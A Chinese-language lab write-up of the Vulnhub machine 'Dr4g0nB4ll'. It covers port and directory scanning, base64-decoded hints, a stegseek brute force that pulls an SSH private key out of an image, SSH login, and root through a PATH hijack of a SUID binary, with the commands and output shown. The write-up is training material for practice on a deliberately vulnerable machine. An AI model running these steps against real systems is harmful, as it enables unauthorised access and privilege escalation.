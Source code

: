 ```yaml
---
title: 'Dr4g0nB4ll - Vulnhub靶机'
date: 2024-02-22 18:00:00 +0800
categories: [hack,Vulnhub]
tags: []
---
```

### 主机发现

```shell
192.168.30.133
```

### 信息收集

```shell
└─$ nmap -sV -A 192.168.30.133
Starting Nmap 7.94 ( https://nmap.org ) at 2024-02-22 03:26 EST
Nmap scan report for 192.168.30.133
Host is up (0.0013s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 b5:77:4c:88:d7:27:54:1c:56:1d:48:d9:a4:1e:28:91 (RSA)
|   256 c6:a8:c8:9e:ed:0d:67:1f:ae:ad:6b:d5:dd:f1:57:a1 (ECDSA)
|_  256 fa:a9:b0:e3:06:2b:92:63:ba:11:2f:94:d6:31:90:b2 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: DRAGON BALL | Aj's
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.56 seconds
```

查看80端口

![image-20240222162800682](../assets/img/old_imgs/image-20240222162800682.png)

浏览发现没有明显信息，同步目录爆破

```shell
PS C:\Users\qianenzhao> dirsearch.exe -u 192.168.30.133:80

  _|. _ _  _  _  _ _|_    v0.4.3.post1
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: C:\Users\qianenzhao\reports\_192.168.30.133_80\_24-02-22_16-23-32.txt

Target: http://192.168.30.133/

[16:23:32] Starting:
[16:23:33] 403 -  279B  - /.ht_wsr.txt
[16:23:33] 403 -  279B  - /.htaccess.bak1
[16:23:33] 403 -  279B  - /.htaccess.sample
[16:23:33] 403 -  279B  - /.htaccess_extra
[16:23:33] 403 -  279B  - /.htaccess.save
[16:23:33] 403 -  279B  - /.htaccess_orig
[16:23:33] 403 -  279B  - /.htaccess_sc
[16:23:33] 403 -  279B  - /.htaccessBAK
[16:23:33] 403 -  279B  - /.htaccessOLD2
[16:23:33] 403 -  279B  - /.htaccess.orig
[16:23:33] 403 -  279B  - /.htaccessOLD
[16:23:33] 403 -  279B  - /.htm
[16:23:33] 403 -  279B  - /.html
[16:23:33] 403 -  279B  - /.htpasswd_test
[16:23:33] 403 -  279B  - /.httr-oauth
[16:23:33] 403 -  279B  - /.htpasswds
[16:23:34] 403 -  279B  - /.php
[16:23:57] 200 -   33B  - /robots.txt
[16:23:57] 403 -  279B  - /server-status/
[16:23:57] 403 -  279B  - /server-status

Task Completed
```

发现存在robots.txt页面

访问得到如下字符`eW91IGZpbmQgdGhlIGhpZGRlbiBkaXI=`

解密得到`you find the hidden dir`

目录爆破无果，审计网站代码

![image-20240222163252652](../assets/img/old_imgs/image-20240222163252652.png)

查找子域名无果，但是发现在末尾注释中存在这样一段字符```VWtaS1FsSXdPVTlKUlVwQ1ZFVjNQUT09```

经过三次`base64`解密得到字符串`DRAGON BALL`

利用这个字符串尝试访问网站目录

![image-20240222163457164](../assets/img/old_imgs/image-20240222163457164.png)

![image-20240222163544001](../assets/img/old_imgs/image-20240222163544001.png)

> secret.txt页面

![image-20240222164314069](../assets/img/old_imgs/image-20240222164314069.png)

无法通过`submit`交互，也无法直接跳转，但是查看源代码可知这个链接打开的图片与先前发现的图片名字一致，尝试下载先前那张图片寻找突破

![image-20240222164859400](../assets/img/old_imgs/image-20240222164859400.png)

常规`binwalk`等尝试无果，尝试使用工具进行爆破

```shell
┌──(kali㉿kali)-[~]
└─$ sudo stegseek ./Desktop/aj.jpg /usr/share/wordlists/rockyou.txt
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "love"
[i] Original filename: "id_rsa".
[i] Extracting to "aj.jpg.out".
```

得到密码，原文件名，打开发现是`ssh密钥`

```shell
┌──(kali㉿kali)-[~/Desktop]
└─$ cat aj.jpg.out
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
...略...
cYmthvUYneQMnt2czKF3XqEvXVPXmnbu9xt079Qu/xTYe+yHZAW5j7gzinVmrQEsvmdejq
9PpqvWzsLFnkXYEMWdKmmHqrauHOcH0hJtEmHuNxR6Zd+XjiRsPuBGxNRE22L/+j++7wxg
uSetwrzhgq3D+2QsZEbjhO+ViDtazKZVjewBCxm7O0NhPFFcfnwTOCDLg+U8Wd1uuVT1lB
Bd8180GtBAAaGtiwAAAAlrYWxpQGthbGk=
-----END OPENSSH PRIVATE KEY-----
```

该机器`ssh`端口已经暴露，尝试利用密钥`ssh`登陆，缺少用户名

回头看发现在登陆页面上有一个疑似用户名的关键词

![image-20240222180928831](../assets/img/old_imgs/image-20240222180928831.png)

搜索发现`xmen`指的是X战警，很有可能就是用户名

###获得立足点

![image-20240222181031980](../assets/img/old_imgs/image-20240222181031980.png)

😘成功得到立足点~

ps这里有个小细节,在利用密钥进行ssh登陆时,会对密钥文件有一个检测,如果该文件开放权限过高会拒绝我们的使用,如下:

![image-20240222181148990](../assets/img/old_imgs/image-20240222181148990.png)

解决办法就是更改该文件的权限:`chmod 600 filename`

### 提权

利用`find`命令查找`suid`提权

```shell
xmen@debian:~$ find / -perm -u=s -type f 2>/dev/null
/home/xmen/script/shell
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/umount
/usr/bin/su
/usr/bin/mount
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
```

存在一个`shell`看上去就很可疑

```shell
xmen@debian:~/script$ ls
demo.c  shell
```

```c
xmen@debian:~/script$ cat demo.c
#include<unistd.h>
void main()
{ setuid(0);
  setgid(0);
  system("ps");
}
```

甚至直接给出了源码,思路很清晰了,劫持环境变量提权

```shell
xmen@debian:~$ echo '/bin/sh' > /tmp/ps
xmen@debian:~$ chmod 777 /tmp/ps
xmen@debian:~$ export PATH=/tmp:$PATH
xmen@debian:~$ ./script/shell
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),1000(xmen)
```

```shell
# cd /root
# ls
proof.txt
# cat proof.txt
   _____ __________
  /     \\______   \          ___  ___ _____   ____   ____
 /  \ /  \|       _/          \  \/  //     \_/ __ \ /    \
/    Y    \    |   \           >    <|  Y Y  \  ___/|   |  \
\____|__  /____|_  /__________/__/\_ \__|_|  /\___  >___|  /
        \/       \/_____/_____/     \/     \/     \/     \/

join channel:   https://t.me/joinchat/St01KnXzcGeWMKSC

your flag: 031f7d2d89b9dd2da3396a0d7b7fb3e2
```

👌拿下

last:看到《红队笔记》新一期讲解这个靶机来试试，个人感觉这台靶机就像是`ctf`做题的靶机，没有什么特别的难点疑点，了解常用路数加上`ctf`的一些知识`（misc）`轻松可以拿下haha，话是这么讲但是还是被图片隐写卡住了。



